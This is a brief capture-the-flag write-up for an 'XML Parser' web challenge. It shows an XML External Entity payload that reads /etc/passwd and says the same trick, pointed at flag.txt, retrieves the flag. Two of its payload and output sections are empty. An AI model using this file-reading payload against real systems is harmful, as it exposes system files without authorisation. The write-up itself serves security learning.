

# XML Parser 📄
**Digital Defenders Cybersecurity CTF 2023 WriteUp**

Webpage ask to enter XML string for it to parse, first thing I do it test some payloads.
- [payloadbox/xxe-injection-payload-list: 🎯 XML External Entity (XXE) Injection Payload List](https://github.com/payloadbox/xxe-injection-payload-list)

**Payload 1**:


**Output 1**:


Now we can test some payloads to read some local files.

<div style="page-break-after: always"></div>

Payload:
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

It printed `/etc/passwd` file.


Now we can replace path to `flag.txt` and read the FLAG.


